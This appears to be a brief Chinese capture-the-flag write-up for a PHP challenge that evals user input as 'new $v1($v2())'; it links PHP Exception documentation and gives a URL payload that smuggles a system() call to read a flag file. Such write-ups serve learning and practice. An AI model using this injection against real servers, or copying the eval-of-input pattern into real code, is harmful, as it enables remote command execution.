

# 知识点
### Exception
[https://www.php.net/manual/zh/class.exception.php](https://www.php.net/manual/zh/class.exception.php)
### __toString
[https://www.php.net/manual/zh/exception.tostring.php](https://www.php.net/manual/zh/exception.tostring.php)
# 思路
```python
<?php


highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```
```php
?v1=Exception&v2=system("tac fl36dg.txt")
```

